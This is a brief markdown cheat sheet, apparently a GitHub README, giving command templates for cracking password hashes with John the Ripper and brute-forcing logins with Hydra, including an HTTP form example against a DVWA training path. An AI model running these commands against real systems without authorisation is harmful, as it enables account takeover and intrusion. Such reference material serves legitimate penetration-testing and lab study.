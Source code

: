 # <p align=center>John The Ripper</p>

### Bruteforce File
```
john --wordlist=[WORDLIST] [FILE]
```
### Show Format List
```
john --list=formats
```
### Bruteforce Hash
```
john --formats=[HASH] [FILE]
```

# <p align=center>Hydra</p>

### Bruteforce Password
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] [PROTOCOL]
```
### Bruteforce Via HTTP
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] http-[REQUEST METHOD]-form "[PATH]:[REQUEST BODY]:[INCORRECT ALERT]"

Example :
hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-get-form "/DVWA/vulnerabilities/brute:username=admin&password=^PASS^:Username and/or password incorrect."
```
